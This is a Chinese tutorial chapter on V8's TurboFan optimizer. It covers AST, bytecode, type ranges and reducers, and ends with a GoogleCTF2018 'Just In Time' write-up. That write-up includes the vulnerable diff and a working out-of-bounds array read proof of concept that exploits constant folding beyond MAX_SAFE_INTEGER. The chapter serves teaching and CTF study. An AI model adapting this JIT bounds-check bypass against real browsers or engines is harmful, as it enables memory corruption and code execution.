






# Chapter4-简单理解 V8 TurboFan

“JavaScript 代码本身就是一个二进制程序。”
不知道读者是否在什么地方听说过这样的解释，但笔者认为这个形容相当生动。因为 JavaScript 的代码是懒惰解释的，只有在特定函数被执行时候，解释器才会对这部分代码进行解释，生成对应的字节码。但这些字节码会随着代码的运行而产生变动，同一份代码有可能在同一次执行中，由于动态优化的缘故而被解释为两段相差甚大的字节码。不知道您现在是否对这句话有了一点体会。在某些文章中我们甚至能看见这样的解释：“解释器即编译器”。

## V8 的工作原理

> 或许您已经在某些地方见过这张图了，它很简洁的概况了整个流程。


> - 首先会将 JavaScript 代码传递给 V8 引擎，并将其递给 Parse
> - 然后它会根据代码生成对应的抽象语法树(AST)
> - 接下来，Ignition 解释器就会直接根据 AST 生成对应的字节码，并开始执行它们
> - 会有另外一个线程监测代码的执行过程，收集合适的数据进行回调
> - TurboFan 会根据这些数据优化字节码，让它们能够更快的执行

一个最简单的例子是，如果在运行过程中，TurboFan 发现某个函数的参数无论如何都只会是 32bit 整数，而不会是其他任何类型，那么它就可以省略掉很多类型检查上的操作了，完全有可能让一些加法被优化为单纯的 add 指令，而不是其他更加复杂的函数；但如果运行中发现，在某一时刻，传入的参数类型发生了变化，那么就会去除这次的优化，令代码回到本来的状态。

从安全的角度来说，如果一段被优化后的代码在遇到某些非法输入时没能正确的执行“去优化(deoptimizations)”步骤或是甚至没有做 deoptimizations，就有可能导致这段代码被错误的使用。


## V8 字节码

字节码是根据语法树转换而来的，那不如我们先从语法树开始 。通过添加参数 `--print-ast` 可以令其打印出 AST。来看下面的示例：


```javascript
function add(val1, val2) {
    return val1 + val2;
}
var res1=add(1,2);
var res2=add("a","b");
```

```ast
$ ./d8 ./bytecode.js --print-ast
[generating bytecode for function: ]
--- AST ---
FUNC at 0
. KIND 0
. LITERAL ID 0
. SUSPEND COUNT 0
. NAME ""
. INFERRED NAME ""
. DECLS
. . FUNCTION "add" = function add
. . VARIABLE (0x56295442b6b0) (mode = VAR, assigned = true) "res1"
. . VARIABLE (0x56295442b7c8) (mode = VAR, assigned = true) "res2"
. BLOCK NOCOMPLETIONS at -1
. . EXPRESSION STATEMENT at 62
. . . INIT at 62
. . . . VAR PROXY unallocated (0x56295442b6b0) (mode = VAR, assigned = true) "res1"
. . . . CALL
. . . . . VAR PROXY unallocated (0x56295442b650) (mode = VAR, assigned = true) "add"
. . . . . LITERAL 1
. . . . . LITERAL 2
. BLOCK NOCOMPLETIONS at -1
. . EXPRESSION STATEMENT at 81
. . . INIT at 81
. . . . VAR PROXY unallocated (0x56295442b7c8) (mode = VAR, assigned = true) "res2"
. . . . CALL
. . . . . VAR PROXY unallocated (0x56295442b650) (mode = VAR, assigned = true) "add"
. . . . . LITERAL "a"
. . . . . LITERAL "b"

[generating bytecode for function: add]
--- AST ---
FUNC at 12
. KIND 0
. LITERAL ID 1
. SUSPEND COUNT 0
. NAME "add"
. PARAMS
. . VAR (0x56295442b6e0) (mode = VAR, assigned = false) "val1"
. . VAR (0x56295442b760) (mode = VAR, assigned = false) "val2"
. DECLS
. . VARIABLE (0x56295442b6e0) (mode = VAR, assigned = false) "val1"
. . VARIABLE (0x56295442b760) (mode = VAR, assigned = false) "val2"
. RETURN at 31
. . ADD at 43
. . . VAR PROXY parameter[0] (0x56295442b6e0) (mode = VAR, assigned = false) "val1"
. . . VAR PROXY parameter[1] (0x56295442b760) (mode = VAR, assigned = false) "val2"
```

 第一个 AST 是整个程序执行流的，而第二个则是函数 add 的 AST，我们的重点放在第二个上并将其转为流程图：
 
```
                       +---------+
             +---------+ Function+----------+
             |         +---------+          |
          +--v---+                     +----v---+
          |params|                     | return |
     +---------------+                 +----+---+
     |               |                      |
     |               |                      |
+----v-----+   +----------+            +----v----+
| var val1 |   | var val2 |            |   add   |
+----------+   +----------+     +------+---------+-------+
                                |                        |
                                |                        |
                        +-------v--------+     +---------v------+
                        | var proxy val1 |     | var proxy val2 |
                        +----------------+     +----------------+
```


> 这里我们省略掉了 DECLS 分支，因为我们并不是很关心这些。

出于一些特殊的规则，语法树会为函数创建两个分支，一个用于参数，另外一个则用于执行流。并且，执行流中使用 `var proxy` 结点代替参数，当使用到参数时，这两个结点会从左子树中的参数结点中获取变量。

而如果附带 `--print-bytecode` 参数，就能够得到其对应的字节码：

```
[generated bytecode for function: add (0x314000253b61 <SharedFunctionInfo add>)]
Bytecode length: 6
Parameter count 3
Register count 0
Frame size 0
Bytecode age: 0
         0x314000253d3e @    0 : 0b 04             Ldar a1
         0x314000253d40 @    2 : 39 03 00          Add a0, [0]
         0x314000253d43 @    5 : a9                Return 
Constant pool (size = 0)
Handler Table (size = 0)
Source Position Table (size = 0)
```

- Parameter count：参数个数。除了我们提供的参数以外，还包括了一个 this 指针。

Ignition 使用一种名为 “register machine” 的机制来模拟寄存器，其中有一个与 x86 下的 rax 相似的 accumulator register(累加寄存器)，它用于常规的计算以及返回值。

具体的字节码就不再做翻译了，因为下文中其实不怎么需要它，此处多有一些抛砖引玉的意思。


## 优化过程

通过添加参数 `--trace-opt` 和 `--trace-deopt` 可以跟踪程序的优化和去优化过程：

```js
class Player{}
class Wall{}

function move(obj) {
  var tmp = obj.x + 42;
  var x = Math.random();
  x += 1;
  return tmp + x;
}

for (var i = 0; i < 0x10000; ++i) {
  move(new Player());
}
move(new Wall());
for (var i = 0; i < 0x10000; ++i) {
  move(new Wall());
}
```

```
$ ./d8 ./bytecode.js --trace-opt --trace-deopt
[marking 0x3fe4081d3629 <JSFunction move (sfi = 0x3fe4081d3211)> for optimized recompilation, reason: small function]
[compiling method 0x3fe4081d3629 <JSFunction move (sfi = 0x3fe4081d3211)> (target TURBOFAN) using TurboFan]
[optimizing 0x3fe4081d3629 <JSFunction move (sfi = 0x3fe4081d3211)> (target TURBOFAN) - took 0.139, 0.330, 0.015 ms]
[completed optimizing 0x3fe4081d3629 <JSFunction move (sfi = 0x3fe4081d3211)> (target TURBOFAN)]
[marking 0x3fe4081d35ad <JSFunction (sfi = 0x3fe4081d317d)> for optimized recompilation, reason: hot and stable]
[compiling method 0x3fe4081d35ad <JSFunction (sfi = 0x3fe4081d317d)> (target TURBOFAN) using TurboFan OSR]
[optimizing 0x3fe4081d35ad <JSFunction (sfi = 0x3fe4081d317d)> (target TURBOFAN) - took 0.137, 0.687, 0.019 ms]

[bailout (kind: deopt-soft, reason: Insufficient type feedback for construct): begin. deoptimizing 0x3fe4081d35ad <JSFunction (sfi = 0x3fe4081d317d)>, opt id 1, bytecode offset 123, deopt exit 6, FP to SP delta 96, caller SP 0x7ffdd0530428, pc 0x3fe4001c4b51]
[bailout (kind: deopt-eager, reason: wrong map): begin. deoptimizing 0x3fe4081d3629 <JSFunction move (sfi = 0x3fe4081d3211)>, opt id 0, bytecode offset 0, deopt exit 1, FP to SP delta 32, caller SP 0x7ffdd05303b8, pc 0x3fe4001c485f]
[marking 0x3fe4081d3629 <JSFunction move (sfi = 0x3fe4081d3211)> for optimized recompilation, reason: small function]
[compiling method 0x3fe4081d3629 <JSFunction move (sfi = 0x3fe4081d3211)> (target TURBOFAN) using TurboFan]
[marking 0x3fe4081d35ad <JSFunction (sfi = 0x3fe4081d317d)> for optimized recompilation, reason: hot and stable]
[optimizing 0x3fe4081d3629 <JSFunction move (sfi = 0x3fe4081d3211)> (target TURBOFAN) - took 0.138, 0.612, 0.098 ms]
[completed optimizing 0x3fe4081d3629 <JSFunction move (sfi = 0x3fe4081d3211)> (target TURBOFAN)]
[compiling method 0x3fe4081d35ad <JSFunction (sfi = 0x3fe4081d317d)> (target TURBOFAN) using TurboFan OSR]
[optimizing 0x3fe4081d35ad <JSFunction (sfi = 0x3fe4081d317d)> (target TURBOFAN) - took 0.253, 0.901, 0.044 ms]
```

可以注意到，当程序多次执行 `move(new Player())` 时，TurboFan 认为可以对此做更进一步的优化以加快程序执行；而让其遇到 `move(new Wall())` 时，则因为二者的不同类型而出现 `wrong map` ，于是其去除以前的优化并重新执行，再之后又因为多次执行而再次优化。

> 也可以通过 `%PrepareFunctionForOptimization()` 与 `%OptimizeFunctionOnNextCall()` 来进行主动优化，不过这需要您在执行时添加参数 `--allow-natives-syntax` 来允许这种语法。

> 另外，具体的过程我们会在接下来的内容说明。目前我们需要知道的事实仅有如上这部分内容。

### 图形化分析

```js
function add(x)
{
	var va1=1;
	if(x)
		va1=0;
	return 1+va1;
}

for (let i = 0; i < 0x10000; ++i) {
 add(true);
}
for (let i = 0; i < 0x10000; ++i) {
 add(false);
}
```

通过添加 `--trace-turbo` 可以在目录下生成 `*.json` 和 `*.cfg*` ，我们可以将 `add` 函数导出的 json 导入到 turbolizer 中以获取到对应的值传递图：(隐藏了一部分，优化以前的状态)



在值传递的过程中可以注意到，Turbofan 总是传递 `Range(n,n)` 类型，它表示传出的值的上下限，对于常数来说，它的上下界是相同的；而对于 SpeculativeSafeIntergerAdd 这类运算函数，它的类型则根据执行流分别计算下界和上界。

> 是的，只需要知道值的上下限就能够确定最终能够使用什么样的类型了。它只是在尝试简化 AST 树，因此并不涉及到实际的执行过程，只需要确定在执行的过程中，需要用什么类型的值表示变量即可。


另外，因为一些编译原理上的设计，每个变量只会经过一次赋值，因此需要使用 Phi 结点去对值进行选择。尽管它只可能返回 0 或 1，但仍然给出了 `Range(0,1)` 。

在完成基本的构建以后，是通过 `TyperPhase::Run` 对整个结构图进行遍历并确定所有结点的属性，其调用链大致如下：

`TyperPhase::Run` --> `Typer::Run` --> `GraphReducer::ReduceGraph` --> `Typer::Visitor::Reduce` --> `Typer::Visitor::***Typer` (此处 * 用以指代某个名称，例如 JSCall)

这会遍历每一个结点，并根据它们的输入来确定最后的类型，并且在这个过程中，它会尝试减少一部分节点来加快运行效率。

姑且用一段简单的源代码来说明一下这个过程，哪怕我并不希望在入门阶段就立刻进入源代码层面，但又似乎逃不开它：

```c++
void Typer::Run(const NodeVector& roots,
                LoopVariableOptimizer* induction_vars) {
  if (induction_vars != nullptr) {
    induction_vars->ChangeToInductionVariablePhis();
  }
  Visitor visitor(this, induction_vars);
  GraphReducer graph_reducer(zone(), graph(), tick_counter_, broker());
  graph_reducer.AddReducer(&visitor);
  for (Node* const root : roots) graph_reducer.ReduceNode(root);
  graph_reducer.ReduceGraph();
	···
    induction_vars->ChangeToPhisAndInsertGuards();
  }
}
```

在 `Typer::Run` 中会调用 `ReduceGraph` 尝试对结点进行缩减，它最终会根据结点的类型来确定运行的函数：

```c++
Type Typer::Visitor::JSCallTyper(Type fun, Typer* t) { 
if (!fun.IsHeapConstant() || !fun.AsHeapConstant()->Ref().IsJSFunction()) { 
return Type::NonInternal(); 
} 
JSFunctionRef function = fun.AsHeapConstant()->Ref().AsJSFunction(); 
if (!function.shared().HasBuiltinId()) { 
return Type::NonInternal(); 
} 
switch (function.shared().builtin_id()) { 
case Builtin::kMathRandom: 
return Type::PlainNumber(); 
case Builtin::kMathFloor: 
case Builtin::kMathCeil: 
case Builtin::kMathRound: 
case Builtin::kMathTrunc: 
return t->cache_->kIntegerOrMinusZeroOrNaN;
···
```

这是一个庞大的 switch ，对于那些内置函数(buildin)，它能够很快找出对应的类型；而对于一些其他类型的函数，则返回 `NonInternal` 。这么做的目的是能够简化一些检查操作，既然判明了这个结点必然会是某个确定的属性，就不再需要对它的输入做其他类型的检查了。

对于常数，也有类似却又小得多的结果：

```c++
Type Typer::Visitor::TypeNumberConstant(Node* node) { 
double number = OpParameter<double>(node->op()); 
return Type::Constant(number, zone()); 
}
```

> 不过这里用到的是 double 类型，所以 v8 中的常数最大值肯定小于普通的八字节可表示的常数最大值。

然后再进入 `Type::Constant` ：

```c++
Type Type::Constant(double value, Zone* zone) { 
if (RangeType::IsInteger(value)) { 
return Range(value, value, zone); 
} else if (IsMinusZero(value)) { 
return Type::MinusZero(); 
} else if (std::isnan(value)) { 
return Type::NaN(); 
} 
DCHECK(OtherNumberConstantType::IsOtherNumberConstant(value)); 
return OtherNumberConstant(value, zone); 
}
```

对于普通整数的返回值自然就是一个 `Range` 了，另外还有两种值被使用 `-0` 和 `NaN` 。

而 Speculative 前缀含有推测的意思，这往往意味着这个函数能够根据情况进一步优化，例如`SpeculativeSafeIntegerAdd` 就是如此。在优化以前，它会以这个结点表示所有的加法，而在它通过代码运行时分析，发现其执行数据符合一定的预期时，就能够用更加具体且更加快速的函数来替代了。

```c++
Type OperationTyper::SpeculativeToNumber(Type type) {
  return ToNumber(Type::Intersect(type, Type::NumberOrOddball(), zone()));
}
```

`ToNumber` 会继续向下化简，最终根据我们给出的 `Range` 选择一个合适的函数替代，我们以如下的例子说明：

假如我们使用一个稍大一些的数：

```js
let opt_me = (x) => {
  return x + 1000000000000;
}
opt_me(42);
for(var i=0;i<0x10000;i++)
{
opt_me(4242);
}
```

就会使用 `SpeculativeNumberAdd` 替代它：

![[turbolizer-1.png]]

而如果我们只使用一些较小的数：

```js
let opt_me= (x) => {
  let y = x ? 10 : 20;
  return y + 100;
}

for(var i=0;i<0x10000;i++)
{
opt_me(false);
}
```

就会生成相当简单的 `Int32Add` ：


另外，而如果需要通过索引来读取数组：

```js
function opt() {
   var arr = [1.1,2.2];
   var x = 1;
   return arr[x];
}

for (var i=0;i<0x20000;i++) {
   opt();
}
```


有一个特殊的函数是 `CheckBounds` ，它会检查输入的索引值是否越界，然后才能够返回对应的数。它的类型也是 `Range` ，通过确定的上下界就能够很容易的分析出索引是否越界，因此在旧版的 V8 中会在优化后消除检查；不过，在现在的版本里，这个检查又加回来了：



> 似乎看起来消除检查也没太大问题，因为上下界确定的情况下 Turbofan 认为绝对不可能发生越界了。
> 但如果在代码层面和优化层面对数值的计算不一致，优化层计算出的结果表示不会越界，而代码层的计算结果却超出了范围，那么就能够利用优化后取出检查的机制来越界读写了。
> 很危险，因此现在又恢复了这个检查。

总结一下目前可能产生的优化：

- JSCall 调用内置函数结点被 PlainNumber 等已知类型替代
- NumberConstant 以 Range(n,n) 表示
- SpeculativeNumberAdd(PlainNumber, PlainNumber) 则会以 PlainNumber 表示，

当然，肯定不只是这些内容，但我们没必要全部展开一一阐明，并且我相信您至少对这种替换有了一定的认识了。

但这只是初步优化，接下来还会做不同阶段的分层优化：

```c++
    TypedOptimization typed_optimization(&graph_reducer, data->dependencies(),
                                         data->jsgraph(), data->broker());
                                         
    AddReducer(data, &graph_reducer, &dead_code_elimination);
    AddReducer(data, &graph_reducer, &create_lowering);
    AddReducer(data, &graph_reducer, &constant_folding_reducer);
    AddReducer(data, &graph_reducer, &typed_lowering);
    AddReducer(data, &graph_reducer, &typed_optimization);
    AddReducer(data, &graph_reducer, &simple_reducer);
    AddReducer(data, &graph_reducer, &checkpoint_elimination);
    AddReducer(data, &graph_reducer, &common_reducer);
```

在 `TypedOptimization` 中，会调用各类 `Reduce` 函数对类型进行优化，例如上述的 `SpeculativeNumberAdd` ：

```c++
Reduction TypedOptimization::ReduceSpeculativeNumberAdd(Node* node) {
  Node* const lhs = NodeProperties::GetValueInput(node, 0);
  Node* const rhs = NodeProperties::GetValueInput(node, 1);
  Type const lhs_type = NodeProperties::GetType(lhs);
  Type const rhs_type = NodeProperties::GetType(rhs);
  NumberOperationHint hint = NumberOperationHintOf(node->op());
  
  if ((hint == NumberOperationHint::kNumber ||
       hint == NumberOperationHint::kNumberOrOddball) &&
      BothAre(lhs_type, rhs_type, Type::PlainPrimitive()) &&
      NeitherCanBe(lhs_type, rhs_type, Type::StringOrReceiver())) {
    // SpeculativeNumberAdd(x:-string, y:-string) =>
    //     NumberAdd(ToNumber(x), ToNumber(y))
    Node* const toNum_lhs = ConvertPlainPrimitiveToNumber(lhs);
    Node* const toNum_rhs = ConvertPlainPrimitiveToNumber(rhs);
    Node* const value =
        graph()->NewNode(simplified()->NumberAdd(), toNum_lhs, toNum_rhs);
    ReplaceWithValue(node, value);
    return Replace(value);
  }
  return NoChange();
}
```

这会尝试通过 `NumberOperationHintOf` 来判别我们的表达式行为：

```c++
NumberOperationHint NumberOperationHintOf(const Operator* op) {
  DCHECK(op->opcode() == IrOpcode::kSpeculativeNumberAdd ||
         op->opcode() == IrOpcode::kSpeculativeNumberSubtract ||
         op->opcode() == IrOpcode::kSpeculativeNumberMultiply ||
         op->opcode() == IrOpcode::kSpeculativeNumberPow ||
         op->opcode() == IrOpcode::kSpeculativeNumberDivide ||
         op->opcode() == IrOpcode::kSpeculativeNumberModulus ||
         op->opcode() == IrOpcode::kSpeculativeNumberShiftLeft ||
         op->opcode() == IrOpcode::kSpeculativeNumberShiftRight ||
         op->opcode() == IrOpcode::kSpeculativeNumberShiftRightLogical ||
         op->opcode() == IrOpcode::kSpeculativeNumberBitwiseAnd ||
         op->opcode() == IrOpcode::kSpeculativeNumberBitwiseOr ||
         op->opcode() == IrOpcode::kSpeculativeNumberBitwiseXor ||
         op->opcode() == IrOpcode::kSpeculativeNumberEqual ||
         op->opcode() == IrOpcode::kSpeculativeNumberLessThan ||
         op->opcode() == IrOpcode::kSpeculativeNumberLessThanOrEqual ||
         op->opcode() == IrOpcode::kSpeculativeSafeIntegerAdd ||
         op->opcode() == IrOpcode::kSpeculativeSafeIntegerSubtract);
  return OpParameter<NumberOperationHint>(op);
}
```

最终它会发现，如果表达式的二值均为 `NumberOperationHint::kNumber` 这类数字而不会是字符串或其他类型，那么就能够将 `SpeculativeNumberAdd` 替换为 `NumberAdd` 。

`JSTypedLowering::ReduceJSCall` 也有类似的操作，这里不再展开，读者可以自行尝试对照源代码。

# 实例分析

## GoogleCTF2018-Just In Time

惯例根据一个实际的样本来说明 Turbofan 的利用过程，理解一下这种优化在什么情况下能够被利用。首先我们从资料较多的例题开始。

题目附件给了 diff 文件，我们可以直接阅读代码来确定问题所在：

```diff
@@ -1301,6 +1302,8 @@ struct TypedLoweringPhase { 
 data->jsgraph()->Dead()); 
 DeadCodeElimination dead_code_elimination(&graph_reducer, data->graph(), 
 data->common(), temp_zone); 
 + DuplicateAdditionReducer duplicate_addition_reducer(&graph_reducer, data->graph(), 
 + data->common()); 
···
 @@ -1318,6 +1321,7 @@ struct TypedLoweringPhase { 
 data->js_heap_broker(), data->common(), 
 data->machine(), temp_zone); 
 AddReducer(data, &graph_reducer, &dead_code_elimination); 
 + AddReducer(data, &graph_reducer, &duplicate_addition_reducer); 
 AddReducer(data, &graph_reducer, &create_lowering); 

```

可以注意到，在最后的一系列优化中，题目添加了一个额外的优化，向上跟踪可以找到其来自于 `DuplicateAdditionReducer` 再往上找即可发现关键的漏洞代码：

```diff
+Reduction DuplicateAdditionReducer::Reduce(Node* node) {

+ switch (node->opcode()) {

+ case IrOpcode::kNumberAdd:

+ return ReduceAddition(node);

+ default:

+ return NoChange();

+ }

+}

+

+Reduction DuplicateAdditionReducer::ReduceAddition(Node* node) {

+ DCHECK_EQ(node->op()->ControlInputCount(), 0);

+ DCHECK_EQ(node->op()->EffectInputCount(), 0);

+ DCHECK_EQ(node->op()->ValueInputCount(), 2);

+

+ Node* left = NodeProperties::GetValueInput(node, 0);

+ if (left->opcode() != node->opcode()) {

+ return NoChange();

+ }

+

+ Node* right = NodeProperties::GetValueInput(node, 1);

+ if (right->opcode() != IrOpcode::kNumberConstant) {

+ return NoChange();

+ }

+

+ Node* parent_left = NodeProperties::GetValueInput(left, 0);

+ Node* parent_right = NodeProperties::GetValueInput(left, 1);

+ if (parent_right->opcode() != IrOpcode::kNumberConstant) {

+ return NoChange();

+ }

+

+ double const1 = OpParameter<double>(right->op());

+ double const2 = OpParameter<double>(parent_right->op());

+ Node* new_const = graph()->NewNode(common()->NumberConstant(const1+const2));

+

+ NodeProperties::ReplaceValueInput(node, parent_left, 0);

+ NodeProperties::ReplaceValueInput(node, new_const, 1);

+

+ return Changed(node);

+}
```

我们筛出关键的分支判断和漏洞代码：

```diff
+ switch (node->opcode()) {
+ case IrOpcode::kNumberAdd:
+ ···
+ if (left->opcode() != node->opcode()) {
+ ···
+ if (right->opcode() != IrOpcode::kNumberConstant) {
+ ···
+ if (parent_right->opcode() != IrOpcode::kNumberConstant) {
+ ···
+ Node* new_const = graph()->NewNode(common()->NumberConstant(const1+const2));
```

总结如下：
- 结点本身为 kNumberAdd
- 左树结点也为 kNumberAdd
- 右树结点为 kNumberConstant
- 左树的右父节点也为 kNumberConstant
- 满足以上条件时，将该结点替换为 NumberConstant(const1+const2)，意味将两个常数合并

满足条件的情况下，其结点树大致如下：`x+constant+constant`
```
                 +------------------+
                 | kNumberConstant  |
          +------+                  |
          |      +------------------+
          |
          |
          |
+---------v------+                +------------------+
| kNumberAdd     |                |kNumberConstant   |
|                |                |                  |
+---------+------+                +--------+---------+
          |                                |
          |                                |
          |                                |
          |       +---------------+        |
          +-------> kNumberAdd    <--------+
                  |               |
                  +---------------+
```

之后它会将两个常数结点运算后替换成 `x+constant` ，这样在执行时就能减少一次运算了。

> 这里的加法即为 JIT 优化层面的运算，我们可以考虑这样一种情况：
> - Index[x] 未越界，可执行
> - Index[x+1+1] 未越界，可执行
> - Index[x+2] 越界，不可执行

不知您是否发现了某些问题，如果我们在代码层面写的是 `Index[x+1+1]` ，那么它是一条可执行的语句，而如果写 `Index[x+2]` 则会被检查出越界；那如果我们写入 `Index[x+1+1]` 使其通过检查后，让优化器把这段语句自动优化成了 `Index[x+2]` ，是否就能够绕过边界检查实现越界读写呢？

> 如果您熟悉 C 语言或是其他类似的编程语言，那么你或许不会认为把 `1+1` 优化为 `2` 是一种不合理的选择，但由于在 JavaScript 中的整数实际上是通过 double 类型的浮点数表示，因此就有可能在运算时发生问题。
> 例如，`Number.MAX_SAFE_INTEGER` 就表示能够安全运算的最大整数，超出该数的运算就有可能发生上述问题，但它并不禁止你使用这类整数，因此在编写代码时需要程序员自己注意。

我们可以直接上代码试试这个事实：

```shell
V8 version 7.3.0 (candidate)
d8> x=Number.MAX_SAFE_INTEGER
9007199254740991
d8> x=x+1
9007199254740992
d8> x=x+1
9007199254740992
d8> x=x+1
9007199254740992
```

这个事实在各个版本中都存在，尽管它并不一定算是个问题，但和题目的优化机制结合就变得可以利用了。

### 一个简单的越界
```js
function oob(x)
{
	var double_array=[1.1,2.2,3.3,4.4];
	//Number.MAX_SAFE_INTEGER=9007199254740991;
	let t=(x==0)?Number.MAX_SAFE_INTEGER-2:Number.MAX_SAFE_INTEGER+1;
	//Range(9007199254740991-2,9007199254740991+1);
	t=t+1+1;
	//优化前:Range(9007199254740991,9007199254740991+1);
	//优化后:Range(9007199254740991,9007199254740991+3);
	t=t-9007199254740989;
	//优化前:Range(2,3)
	//优化后:Range(2,5)
	return double_array[t];
}
console.log(oob(0));
console.log(oob(1));
%OptimizeFunctionOnNextCall(oob);
console.log(oob(1));
```

执行它将会打印出如下内容：
```shell
$ ./d8 exp.js --allow-natives-syntax --trace-turbo
3.3
4.4
0
```

我们可以尝试通过节点海跟踪一下这个分析过程。在没有进行优化时，我们得到的节点海为：


此时将遍历所有结点，并通过计算得出它们的 Range 取值范围。可以发现，此时的 CheckBounds 得知这个范围为 `Range(2,3)` ，这是不可能发生溢出的。


然后到了 typedlowering 阶段，将开始进行初步的优化，可以注意到，此时 `1+1` 已经被优化为了 `NumberConstant[2]` ，但并没有重新计算 CheckBounds 得到的范围。


由于 CheckBounds 发现这个结点给出索引始终都在 Range(2,3)，因此在 simplified lowering阶段已经将这个结点删除：



而当完成优化以后，再次执行这个函数时，`t+1+1` 变成 `t+2` 导致了计算结果超出预期进行越界读写，却没能被检查出来，因此得到了越界的能力。

> 总结以下上述的过程就是：
> - Range 只在最初的阶段进行计算
> - 而如果后续的优化会导致 Range 的范围变动，而 turbofan 并不会重新计算
> - 于是该值发生越界
> 
> 当然，由于现在的版本不再删除 checkbound 结点，因此这个问题只会发生在过去，但它仍然值得我们学习。


能够越界读写以后，泄露地址和伪造数据自然不在话下。只要修改 JSArray 的 length 属性为需要的值，之后就能够随意读写界外了。相关代码如下：

```c++
bool IsOutOfBoundsAccess(Handle<Object> receiver, uint32_t index) {
  uint32_t length = 0;
  if (receiver->IsJSArray()) {
    // 获取 JSArray 的 length
    JSArray::cast(*receiver)->length()->ToArrayLength(&length);
  } else if (receiver->IsString()) {
    length = String::cast(*receiver)->length();
  } else if (receiver->IsJSObject()) {
    length = JSObject::cast(*receiver)->elements()->length();
  } else {
    return false;
  }
  // 判断是否越界
  return index >= length;
}
```

具体的利用已经有很多师傅详细聊过，因此本篇就不做多余的赘述了。
